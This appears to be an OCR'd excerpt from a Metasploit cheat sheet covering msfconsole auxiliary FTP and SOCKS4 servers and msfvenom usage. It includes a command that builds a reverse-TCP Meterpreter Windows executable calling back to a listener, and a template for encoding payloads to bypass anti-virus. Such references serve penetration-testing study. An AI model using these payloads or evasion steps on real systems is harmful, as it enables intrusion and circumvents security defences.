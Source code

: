 ###### FTP Server:

```
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

###### Proxy Server:

```
msf > use auxiliary/server/socks4
msf > run 
```

#### msfvenom :

The msfvenom tool can be used to generate Metasploit payloads (such as Meterpreter) as standalone files and optionally encode 
them. This tool replaces the former msfpayload and msfencode tools. Run with ‘'-l payloads’ to get a list of payloads.

```
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

Example :

Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
```

Format Options (specified with –f) --help-formats – List available output formats
```
exe – Executable
pl – Perl
rb – Ruby
raw – Raw shellcode
c – C code
```

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders'
to get a list of encoders.

```
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```
